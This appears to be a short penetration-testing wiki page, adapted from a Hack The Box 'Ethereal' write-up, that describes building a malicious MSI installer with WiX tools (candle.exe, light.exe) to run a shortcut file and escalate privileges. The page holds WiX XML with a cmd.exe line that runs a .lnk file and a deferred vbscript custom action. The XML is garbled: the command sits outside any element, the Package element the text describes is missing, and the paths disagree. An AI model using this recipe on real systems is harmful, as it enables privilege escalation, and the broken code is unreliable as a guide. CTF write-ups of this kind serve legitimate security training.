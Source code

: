 # Creating Malicious MSI and Getting Root


The creation of the MSI installer will be done using wixtools, specifically [[http://wixtoolset.org|wixtools]] will be utilized. It is worth mentioning that alternative MSI builders were attempted, but they were not successful in this particular case.

For a comprehensive understanding of wix MSI usage examples, it is advisable to consult [[https://www.codeproject.com/Tips/105638/A-quick-introduction-Create-an-MSI-installer-with|this page]]. Here, you can find various examples that demonstrate the usage of wix MSI.

The aim is to generate an MSI that will execute the lnk file. In order to achieve this, the following XML code could be employed ([[https://0xrick.github.io/hack-the-box/ethereal/index.html#Creating-Malicious-msi-and-getting-root)|xml from here]]:

```html
<?xml version="1.0"?>
<Wix xmlns="http://schemas.microsoft.com/wix/2006/wi">
<Product Id="*" UpgradeCode="12345678-1234-1234-1234-111111111111" Name="Example Product Name"
Version="0.0.1" Manufacturer="@_xpn_" Language="1033">

<Directory Id="TARGETDIR" Name="SourceDir">
<Directory Id="ProgramFilesFolder">
<Directory Id="INSTALLLOCATION" Name="Example">
<Component Id="ApplicationFiles" Guid="12345678-1234-1234-1234-222222222222">
</Component>
</Directory>
</Directory>
</Directory>
<Feature Id="DefaultFeature" Level="1">

</Feature>
cmd.exe /C "c:\\users\\public\\desktop\\shortcuts\\rick.lnk"

<CustomAction Id="Stage2" Execute="deferred" Script="vbscript" Return="check">
fail_here
</CustomAction>
<InstallExecuteSequence>

</InstallExecuteSequence>
</Product>
</Wix>
```
```
It is important to note that the Package element contains attributes such as InstallerVersion and Compressed, specifying the version of the installer and indicating whether the package is compressed or not, respectively.

The creation process involves utilizing candle.exe, a tool from wixtools, to generate a wixobject from msi.xml. The following command should be executed:

```
candle.exe -out C:\tem\wix C:\tmp\Ethereal\msi.xml
```
```
Additionally, it is worth mentioning that an image is provided in the post, which depicts the command and its output. You can refer to it for visual guidance.

Furthermore, light.exe, another tool from wixtools, will be employed to create the MSI file from the wixobject. The command to be executed is as follows:

```
light.exe -out C:\tm\Ethereal\rick.msi C:\tmp\wix
```
```
Similar to the previous command, an image is included in the post illustrating the command and its output.

Please note that while this summary aims to provide valuable information, it is recommended to refer to the original post for more comprehensive details and accurate instructions.

## References

- [[https://0xrick.github.io/hack-the-box/ethereal/#Creating-Malicious-msi-and-getting-root|https://0xrick.github.io/hack-the-box/ethereal/#Creating-Malicious-msi-and-getting-root]]
- [[https://www.codeproject.com/Tips/105638/A-quick-introduction-Create-an-MSI-installer-with|https://www.codeproject.com/Tips/105638/A-quick-introduction-Create-an-MSI-installer-with]]
  [[http://wixtoolset.org|wixtools]]



